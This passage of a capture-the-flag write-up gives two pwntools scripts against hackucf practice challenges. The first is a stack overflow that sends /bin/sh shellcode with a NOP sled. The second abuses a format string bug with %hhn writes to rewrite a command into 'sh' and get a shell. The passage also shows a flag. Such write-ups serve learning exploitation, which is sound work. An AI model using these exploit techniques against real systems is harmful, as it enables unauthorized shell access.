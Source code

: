 shellcode and return

```python 
from pwn import *
host, port = "ctf.hackucf.org", 32101

shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x2c\xf5\xcd\x80'
p = remote(host, port)
#p = process('super_stack')
buff = int(p.recvuntil(b'\n').replace(b'\n',b'').split(b'= ')[1],16)
print(hex(buff))

payload = b''
payload += b'\x90'*0x10
payload += shellcode
payload += b'\x90'*(0x43-0x4-len(shellcode)-0x10)
payload += p32(buff)

print(payload)
p.sendline(payload)
p.interactive()
```

> Flag: **flag{what_is_this_flag_you_speak_of}**


### Restricted Shell
125 points

the program runs a restricted shell that allows you to use some commands like _uname_, _id_, ...

reading the binary, we can see that there is a format string bug, so we can abuse this to change the **id** command to **sh** command, which will give us shell.

```python
from pwn import *

host, port = "ctf.hackucf.org",7007

p = remote(host, port)
#id  =>> sh
iAdd = 0x0804b369
dAdd = 0x0804b36a
payload = b''
payload +=p32(dAdd)
payload +=p32(iAdd)
payload += bytearray('%{}x%5$hhn'.format(ord('h')-8).encode('ascii'))
payload += bytearray('%{}x%6$hhn'.format(ord('s')-ord('h')).encode('ascii'))
print(payload)
p.sendline(b'prompt')
p.sendline(payload)
p.sendline(b'id')
p.interactive()
```
